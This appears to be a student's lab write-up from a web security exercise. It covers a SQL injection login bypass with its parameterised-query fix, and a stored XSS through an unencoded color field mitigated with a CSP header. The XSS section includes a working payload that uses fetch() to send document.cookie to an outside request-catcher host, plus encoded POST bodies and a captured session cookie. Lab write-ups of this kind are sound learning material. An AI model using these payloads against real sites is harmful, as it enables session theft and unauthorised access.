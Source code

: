 # Web Security

Start 13:00


## 1. SQL Injection exploit
Url http://9c508440-2d3d-44f4-9e93-7341e2d46cf6.rdocker.vuln.land/app/index.php (message board started)

Attempts (with success as last attempt)
- `' OR 1=1#` -> invalid credentials
- `' OR 1=1--` -> invalid credentials (sql serve)
- `" OR 1=1#` -> doesn't seem to work but i don't get invalid credentials. Maybe `"` is character to jump out of context
- `" OR ""="` -> works 
    - this is the solution

## 2. SQL Injection fix
http://9c508440-2d3d-44f4-9e93-7341e2d46cf6.rdocker.vuln.land/theia/#/home/theia/workspace.theia-workspace  (development environment)

Relevant code in index.php (without fix): 
```
    $db = new SQLite3('user.db');
	$query = 'SELECT * FROM user WHERE username=:username AND password="' . $password . '"';

	try {
		$stmt = $db->prepare($query);
		$stmt->bindValue(':username', $username);
		$results = $stmt->execute();
```

Code with fix (parameterize password and dont concatenate strings with user input to form an sql query)
```
    $db = new SQLite3('user.db');
    $query = 'SELECT * FROM user WHERE username=:username AND password=:password';

	try {
		$stmt = $db->prepare($query);
		$stmt->bindValue(':username', $username);
        $stmt->bindValue(':password', $password);
		$results = $stmt->execute();
```

## 3. XSS Exploit
http://9c508440-2d3d-44f4-9e93-7341e2d46cf6.rdocker.vuln.land/app/app.php (site with vulnerability)
https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/ (request catcher)

Vulnerability of found in app.php: color is not htlm encoded
```
 $username = $row['username'];
  $color = $row['color']; // NOT htlm encoded
  $message = htmlentities($row['message']);
  echo <<<EOF
  <tr>
      <td>
          Message from: $username
          <font color="$color"><pre>$message</pre></font>
      </td>
  </tr>
```

to exploit it I need to post my attack code to post for the color property. 
i can do this with firefox developer tools (or some other tool like burp)

**Simple exploit with alert message**
`red"><script>alert('ss')</script><font color="`
-> url encoded: red%22%3E%3Cscript%3Ealert%28%27ss%27%29%3C%2Fscript%3E%3Cfont%20color%3D%22
Entire post body: "action=postMessage&color=red%22%3E%3Cscript%3Ealert%28%27ss%27%29%3C%2Fscript%3E%3Cfont%20color%3D%22&message=tttttt"

**Exploit sending to captcha (solution)**
Basics 
- Example capta request: https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/test?xx=aa
- code to send cookies`<script>fetch('https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/test?cc='+document.cookie)</script>`
- Exploit code for color param: 
    - `red"><script>fetch('https://dbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land/test?cc='+document.cookie)</script><font color="`
    - url encoded: `red%22%3E%3Cscript%3Efetch%28%27https%3A%2F%2Fdbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land%2Ftest%3Fcc%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%3Cfont%20color%3D%22`
- request body for exploit
    - `action=postMessage&color=%23000000&message=zzz`
    - `action=postMessage&color=red%22%3E%3Cscript%3Efetch%28%27https%3A%2F%2Fdbed171e-67ef-4546-9c75-fa265e77d2bd.idocker.vuln.land%2Ftest%3Fcc%3D%27%2Bdocument.cookie%29%3C%2Fscript%3E%3Cfont%20color%3D%22&message=zzz`
    - Cookie value: PHPSESSID=skqhnpip1in94ak9hrms8j493e


![proof](WebSecurity.png)

## 4. XSS Mitigation
Since there is not enough time to fix the app, i added
CSP policy. So now the appache webservers sends the response header with the CSP policy that prevents inline scripts: 
added in httpd.conf  (Between "INSERT WAF virtual path and END insert):
```
Header add Content-Security-Policy "default-src 'self'"
```

Another possibility would have been to try a rewrite the output (very difficult) or validate the request via Regex and then reject if it contains a script tag. 